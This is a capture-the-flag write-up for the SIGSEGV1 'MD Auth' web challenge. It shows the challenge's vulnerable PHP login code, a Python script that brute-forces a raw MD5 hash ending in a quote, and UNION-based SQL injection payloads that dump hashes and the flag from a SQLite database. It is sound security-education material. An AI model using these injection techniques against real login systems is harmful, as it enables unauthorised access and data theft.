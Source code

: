 ```yaml
---
layout: post
title: SIGSEGV1 Writeup - MD Auth
image: /images/default.jpg
---
```


Let's talk about the "MD Auth" challenge, I admit I started with this challenge thinking it would be about "Markdown". I was wrong but it was nonetheless interesting to solve.

<!--more-->

The source code of the index was available by requesting : [http://finale-docker.rtfm.re:4444/?source](http://finale-docker.rtfm.re:4444/?source)

{% highlight php%}
<?php
$_TITLE = 'MD Auth';
$_LONGTITLE = 'MD Auth';
$con = new SQLite3('mdauth.db');

require 'config.php'; # 7-digit APP_SALT, MAX_ERRORS and check_errors()
if(isset($_POST['login'], $_POST['password'])) {
    $errors = isset($_COOKIE['signed_errors']) ? check_errors($_COOKIE['signed_errors']) : 0;
    if($errors >= MAX_ERRORS) {
        presult('You have been banned for reaching '.MAX_ERRORS.' errors');
    } else {
        $login = $con->escapeString($_POST['login']);
        $hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
        $query = $con->query("SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'");
        if(!$query) $row=FALSE; 
        else $row = $query->fetchArray();

        if($row !== FALSE&& $query->fetchArray() === FALSE) {
            presult("Welcome back {$row['login']}!");
        } else {
            presult('Wrong username/password combination!');
            setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
        }
    }
{% endhighlight %}

At first I tried to access the database with my browser by requesting [finale-docker.rtfm.re:4444/mdauth.db](finale-docker.rtfm.re:4444/mdauth.db), unfortunately that didn't work. Let's dig deeper into the source code. We want to authenticate on the Web Application, maybe we can do an SQL injection inside the following query.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
{% endhighlight %}

In order to exploit this, we need to bypass the `escapeString` function used for `$login` and `$hash`.

{% highlight php%}
<?php
$login = $con->escapeString($_POST['login']);
$hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
?>
{% endhighlight %}

The `md5` function is called with the second argument set to `true`, meaning we will get a binary output instead of a hexadecimal one. We might be able to get a backslash in the binary output, but we need to know the `APP_SALT` value in order to do our offline bruteforce. The author of the challenge was kind enough to provide a way to get this secret by misusing the `cookie`.

{% highlight php%}
<?php
setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
?>
{% endhighlight %}

We can do a single failed attempt in order to get a cookie containing the md5(SALT+"1"), based on the comment in the code we know the SALT is between 0000000-9999999 (7-digit APP_SALT). 

I got `MD5:4322dfb1e9b20645594e9f3f6998845a` which correspond to the following `PLAIN:86203711`. We now have our APP_SALT value : 8620371. The following script will bruteforce the first 1000 numbers looking for a quote in the last char of the MD5 output.

{% highlight python%}
import requests
import hashlib

# md5 true : http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes
def computeMD5hash(my_string):
    m = hashlib.md5()
    m.update(my_string.encode('utf-8'))
    return m.digest()

# Use the salt to find a string ending by "\"
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "\\" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

In my first attempt, I was looking for a backslash "\" in order to escape the single quote "'" from the query and use the login to complete the SQL injection.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
SELECT login FROM users WHERE hash='GARBAGE\' and login=' OR 1=1--' 
{% endhighlight %}

It would have worked in a MySQL database, unfortunately we were in front of a SQLite one. The documentation and stackoverflow provided the useful information, escaping is done by doubling the quote.

{% highlight sql%}
INSERT INTO table_name (field1, field2) VALUES (123, 'Hello there''s');
{% endhighlight %}

I adjusted the script to check for a single quote and got the number `45`.

{% highlight python%}
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "'" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

Now it's just a simple SQL injection, by using the following credential i was able to extract interesting data.

{% highlight sql%}
login = "union all select hash from users limit 1--"
password = "45"

The query looked like "SELECT login FROM users WHERE hash='GARBAGE'' and login=' union all select hash from users limit 1--'"
with hash='GARBAGE'' and login='
{% endhighlight %}

I got the following users : `admin` and `flaggy`. Next step was to extract the flag from the database, it was located in the flag_field of the users.

{% highlight bash%}
union all select flag_field from users limit 2,1--
Welcome back sigsegv{82e9f4a155b9b740b4ff37624429b031}!
{% endhighlight %}
